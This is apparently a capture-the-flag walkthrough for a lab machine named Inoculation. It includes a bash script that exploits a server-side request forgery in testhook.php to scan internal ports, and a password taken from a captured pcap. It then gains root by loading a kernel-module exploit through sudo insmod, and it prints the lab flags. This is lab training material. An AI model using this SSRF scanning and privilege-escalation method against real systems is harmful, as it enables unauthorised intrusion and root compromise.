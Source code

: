 > Inoculation | 

**export IP=10.10.47.226**

# Nmap 

nmap -A -sC -sV -T4 -Pn -vv -p- -oN nmap/initial $IP

```
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Inoculation
```

In port 80, we find a submit button and on catching the request we are scanning for ports using a basic script

# ape.sh

```
#!/bin/bash

for x in {1..65535};
	do cmd=$(curl -so /dev/null -X POST http://$IP/testhook.php --data "handler=https://2130706433:${x}" -w '%{size_download}')
	#2130706433 is the complete string version of '127.0.0.1'
	if [ $cmd != 0 ]; then
		echo "Port Open: $x"
	fi
done 
```

**Output**

```
Port open: 80
Port open: 9999
```

**Note : Else we can use burp's intruder to get this result**

Curling on port 9999 gives us an output

curl -X POST http://$IP/testhook.php --data "handler=http://2130706433:9999"

```
<head><title>2130706433:9999/</title></head>
<body bgcolor=white text=black link=darkblue vlink=firebrick alink=red>
<h1>listing: 
<a href="/">/</a></h1><hr noshade size=1><pre>
<b>access      user      group     date             size  name</b>

-rw-r--r--  root      root      Aug 31  2019  1311  B  <a href="dump.pcap">dump.pcap</a>
</pre><hr noshade size=1>
<small><a href="http://bytesex.org/webfs.html">webfs/1.21</a> &nbsp; 14/Sep/2020 08:43:00 GMT</small>
</body>
```

We got a `dump.pcap` file and in that we have a `pass4maynard.txt`
It is cleartext 

```
Here is your password: Js&S_uFJgg~YM4_g

Delete this after you have received it
```

# SSH using the creds with username as `maynard` and password as `Js&S_uFJgg~YM4_g`

## user.txt

================================
e7cdb6964dd72a0ef9a934e111d3ed65
================================

# Privilege Escalation

sudo -l
```
sudo: unable to resolve host inoculation
Matching Defaults entries for maynard on inoculation:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User maynard may run the following commands on inoculation:
    (ALL) NOPASSWD: /sbin/insmod
    (ALL) NOPASSWD: /sbin/rmmod
```

For `insmod` there is an exploit in exploitdb.

On running the exploit in local machine we get `cve_2017_0358.ko` and transfer it to the box.

And we have to run that.

sudo insmod ./cve_2017_0358.ko

**Note : It creates a suid in /tmp `r00t`**

And running `./r00t -p` we get the root shell!!

## root.txt

=================================
d8d4fd91665a6235a534c2caff29f55d
=================================